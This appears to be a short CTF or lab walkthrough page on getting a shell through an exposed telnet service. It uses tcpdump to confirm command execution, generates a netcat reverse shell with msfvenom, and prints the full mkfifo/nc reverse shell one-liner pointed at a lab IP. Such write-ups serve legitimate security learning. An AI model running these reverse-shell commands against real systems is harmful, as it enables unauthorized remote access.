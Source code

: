 ```yaml
---
description: tcpdump listener
---
```


# 🔼 tools used

with the OpenVPN connection:

* `sudo tcpdump ip proto \\icmp -i tun0`

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>why tun0</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

in order to find if telnet is executing our commands on it we started a tcpdump listener on our local machine and then executed `.RUN ping [our local ip] -c 1`

***

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:\


`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

`-p` = payload

`lhost` = our local host IP address (this is your machine's IP address)

`lport` = the port to listen on (this is the port on your machine)

`R` = export the payload in raw format

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

#### Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

after that we copy and paste our msfvenom payload into the telnet session and run it as a command to get a shell.

`.RUN mkfifo /tmp/qdym; nc 10.13.65.129 44444 0</tmp/qdym | /bin/sh >/tmp/qdym 2>&1; rm /tmp/qdym` was run in the telnet session, then:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

